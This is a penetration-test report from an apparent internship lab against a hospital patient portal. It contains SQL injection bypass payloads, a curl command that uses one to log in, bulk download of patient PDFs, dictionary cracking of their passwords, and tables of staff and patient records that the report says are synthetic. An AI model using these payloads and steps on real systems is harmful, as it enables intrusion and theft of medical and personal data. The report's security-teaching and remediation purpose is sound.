






# Web Application Penetration Test — medirozahospital.com

**Milestone 1: Initial Access — Retrieve 3 Confidential Patient PDF Lab Reports**

| | |
|---|---|
| **Target** | `https://medirozahospital.com` |
| **Type** | Black Box Penetration Test |
| **Date** | 16 October 2026 |
| **Authorization** | Written permission from instructor (lab environment, fake data) |
| **Environment** | Kali Linux 1 (VirtualBox) |
| **Milestone** | 1 of 4 |

> All data on the target site is synthetic/fake, as confirmed by the instructor. This test was conducted under explicit written authorization as part of an internship final task.

---

## Table of Contents

1. [Findings Summary](#findings-summary)
2. [Reconnaissance](#1-reconnaissance)
3. [Directory Discovery via robots.txt](#2-directory-discovery-via-robotstxt)
4. [Exposed Database Backup](#3-exposed-database-backup)
5. [SQL Injection — Authentication Bypass](#4-sql-injection--authentication-bypass)
6. [Patient Portal Access](#5-patient-portal-access)
7. [PDF Password Cracking — Report 1 (S. Dlamini)](#6-pdf-password-cracking--report-1-s-dlamini)
8. [PDF Password Cracking — Report 2 (P. Reddy)](#7-pdf-password-cracking--report-2-p-reddy)
9. [PDF Password Cracking — Report 3 (E. Thompson)](#8-pdf-password-cracking--report-3-e-thompson)
10. [Remediation](#remediation)

---

## Findings Summary

| ID | Vulnerability | Severity | Location |
|---|---|---|---|
| F-01 | SQL Injection — Authentication Bypass | **Critical** | `/patient/login.php` |
| F-02 | Sensitive Database Backup Publicly Accessible | **Critical** | `/old/mediroza_db_backup_2019.sql` |
| F-03 | Directory Listing Enabled on Sensitive Paths | **High** | `/patient/`, `/staff/`, `/old/` |
| F-04 | Sensitive Paths Disclosed in robots.txt | **High** | `/robots.txt` |
| F-05 | Weak PDF Encryption Passwords | **Medium** | Patient reports |
| F-06 | Verbose SQL Error Messages Returned to Client | **Low** | `/patient/login.php` |

---

## 1. Reconnaissance

Started with HTTP header fingerprinting using two curl commands.

```bash
curl -I http://medirozahospital.com
curl https://medirozahospital.com/robots.txt
```

**curl -I** revealed:
- Server: `LiteSpeed`
- Redirect: HTTP → HTTPS (301)
- `x-turbo-charged-by: LiteSpeed`
- PHP 8.2.33 / Mediroza CMS 1.4.2

**robots.txt** immediately disclosed three sensitive hidden paths:

```
User-agent: *
Disallow: /patient/
Disallow: /staff/
Disallow: /old/
```



*Screenshot: Left — curl fingerprint + robots.txt output in terminal. Right — `/old/mediroza_db_backup_2019.sql` accessed directly in browser with no authentication.*

---

## 2. Directory Discovery via robots.txt

All three paths listed in `robots.txt` had **directory listing enabled** — no authentication required. Browsing to each revealed the full file tree:

- `/patient/` — exposed `login.php`, `download.php`, `portal.php`, `error_log`
- `/staff/` — exposed staff-facing files
- `/old/` — exposed `mediroza_db_backup_2019.sql`

**Finding F-04:** robots.txt acted as a free map to every sensitive area of the application.  
**Finding F-03:** Directory autoindex exposed file structure to any unauthenticated visitor.

---

## 3. Exposed Database Backup

Downloaded `mediroza_db_backup_2019.sql` directly from `/old/` — no login, no token, nothing.

The file contained:

**`staff` table — 30 employee records:**

| Field | Example |
|---|---|
| Full Name | Dr. Rajesh Naidoo |
| Job Title | Chief Pathologist |
| Email | r.naidoo@medirozahospital.com |
| Phone | +27 82 101 2007 |
| National ID | 85021013011081 |
| Monthly Salary | ZAR 138,000 |

**`shareholders` table — 10 records** including share class, percentage, and shares held.

**Finding F-02:** A full internal HR database — salaries, national IDs, contact details — was publicly downloadable with a single GET request.

---

## 4. SQL Injection — Authentication Bypass

The patient portal at `/patient/login.php` was the next target. Tested multiple SQL injection payloads:

**First attempt — `' OR 1=1#`:** The server returned a raw MySQL error, confirming the injection point:

```
Warning: mysqli_query(): You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version
for the right syntax to use near ''' OR 1=1#' at line 1
```



*Screenshot: Raw MySQL error message rendered directly in the browser — confirms unsanitized input and error disclosure (F-06).*

**Second attempt — `admin'-- -`:** Commented out the password check entirely. Login succeeded.


*Screenshot: `admin'-- -` in the username field — this payload bypassed authentication and redirected to the patient portal.*

**Finding F-01 (Critical):** The `username` field was directly concatenated into the SQL query with no prepared statements or sanitization. `admin'-- -` commented out the password validation, granting full portal access.

**Exploit payload:**
```bash
curl -X POST https://medirozahospital.com/patient/login.php \
  --data-urlencode "username=admin'-- -" \
  --data-urlencode "password=test" \
  -c cookies.txt -b cookies.txt -L -o portal.html
```

---

## 5. Patient Portal Access

After the SQLi bypass, the authenticated portal at `/patient/portal.php` listed all three patient lab reports:



*Screenshot: Patient portal — "My lab reports" — listing all three encrypted PDFs accessible after authentication bypass.*

Reports listed:
- **Pathology Report - S. Dlamini** | Lab Ref LR-2024-1187 | 2024-11-04 | PDF (encrypted)
- **Pathology Report - P. Reddy** | Lab Ref LR-2024-1192 | 2024-11-05 | PDF (encrypted)
- **Pathology Report - E. Thompson** | Lab Ref LR-2024-1205 | 2024-11-06 | PDF (encrypted)

Downloaded all three using the session cookie:

```bash
curl "https://medirozahospital.com/patient/download.php?file=1" -b cookies.txt -L -o report1.pdf
curl "https://medirozahospital.com/patient/download.php?file=2" -b cookies.txt -L -o report2.pdf
curl "https://medirozahospital.com/patient/download.php?file=3" -b cookies.txt -L -o report3.pdf
```

All three PDFs were password-encrypted (PDF R3 / 128-bit RC4). Used the **Hash Calculator** at [networkwalks.com](https://networkwalks.com/hash-calculator/) to extract a `pdf2john`-compatible hash from each file, then ran a dictionary attack via the **Password Cracker** tab.

---

## 6. PDF Password Cracking — Report 1 (S. Dlamini)



*Screenshot: Left — `patient_report_1.pdf` opened showing Sipho Dlamini's pathology results. Right — networkwalks.com Password Cracker showing `PASSWORD CRACKED SUCCESSFULLY: 123456`.*

| Field | Value |
|---|---|
| Patient Name | Sipho Dlamini |
| Patient ID | MG-P-10231 |
| DOB | 1964-06-12 |
| Gender | Male |
| Lab Ref | LR-2024-1187 |
| Report Date | 2024-11-04 |
| Referring Dr. | Dr. Anita Naicker |
| Specimen | Whole blood (EDTA) |
| Notable Findings | White Cell Count: 11.8 × 10⁹/L — **HIGH** |
| **PDF Password** | `123456` — cracked in < 5s |

---

## 7. PDF Password Cracking — Report 2 (P. Reddy)



*Screenshot: Left — `patient_report_2.pdf` opened showing Priya Reddy's pathology results. Right — networkwalks.com Password Cracker showing `PASSWORD CRACKED SUCCESSFULLY: password`.*

| Field | Value |
|---|---|
| Patient Name | Priya Reddy |
| Patient ID | MG-P-10244 |
| DOB | 1991-02-28 |
| Gender | Female |
| Lab Ref | LR-2024-1192 |
| Report Date | 2024-11-05 |
| Referring Dr. | Dr. Johan van der Merwe |
| Specimen | Serum |
| Notable Findings | Total Cholesterol 6.4 mmol/L — **HIGH**, LDL 4.1 mmol/L — **HIGH**, Triglycerides 1.8 mmol/L — **HIGH** |
| **PDF Password** | `password` — cracked in < 5s |

---

## 8. PDF Password Cracking — Report 3 (E. Thompson)



*Screenshot: Left — `patient_report_3.pdf` opened showing Emily Thompson's pathology results. Right — networkwalks.com Password Cracker showing `PASSWORD CRACKED SUCCESSFULLY: !@#$%^&`.*

| Field | Value |
|---|---|
| Patient Name | Emily Thompson |
| Patient ID | MG-P-10258 |
| DOB | 1978-09-03 |
| Gender | Female |
| Lab Ref | LR-2024-1205 |
| Report Date | 2024-11-06 |
| Referring Dr. | Dr. Ahmed Kara |
| Specimen | Serum |
| Notable Findings | Haemoglobin 11.4 g/dL — **LOW**, Ferritin 9 ug/L — **LOW**, Vitamin D 42 nmol/L — **LOW** |
| **PDF Password** | `!@#$%^&` — cracked via custom wordlist |

**Finding F-05 (Medium):** All three PDFs used trivially weak passwords present in common wordlists. Cracked in seconds via dictionary attack.

| Report | Patient | PDF Password | Crack Time |
|---|---|---|---|
| `patient_report_1.pdf` | S. Dlamini | `123456` | < 5s |
| `patient_report_2.pdf` | P. Reddy | `password` | < 5s |
| `patient_report_3.pdf` | E. Thompson | `!@#$%^&` | < 60s |

**Milestone 1 complete. All 3 confidential patient PDF lab reports retrieved and decrypted.**

---

## Remediation

| ID | Finding | Fix |
|---|---|---|
| F-01 | SQL Injection | Use prepared statements (PDO/MySQLi). Never concatenate user input into SQL. |
| F-02 | Exposed DB Backup | Delete from web root immediately. Store backups outside the public directory tree. |
| F-03 | Directory Listing | Disable `autoindex` server-wide. Add `Options -Indexes` to `.htaccess`. |
| F-04 | robots.txt Disclosure | Remove sensitive paths from `robots.txt`. Use server-side access controls instead. |
| F-05 | Weak PDF Passwords | Use randomly generated 16+ character passwords per document. Deliver via secure out-of-band channel. Upgrade to AES-256. |
| F-06 | SQL Error Disclosure | Set `display_errors = Off` in `php.ini`. Log errors server-side only. |

---

## Tools Used

| Tool | Purpose |
|---|---|
| `curl` | HTTP fingerprinting, SQL injection, session handling, PDF download |
| networkwalks.com Hash Calculator | PDF hash extraction (pdf2john format) |
| networkwalks.com Password Cracker | Dictionary attack on PDF hashes |
| Firefox (Kali) | Manual portal navigation and directory browsing |

---

*Assessment conducted under written authorization from the lab instructor as part of an internship final task. The target site contains synthetic data only.*
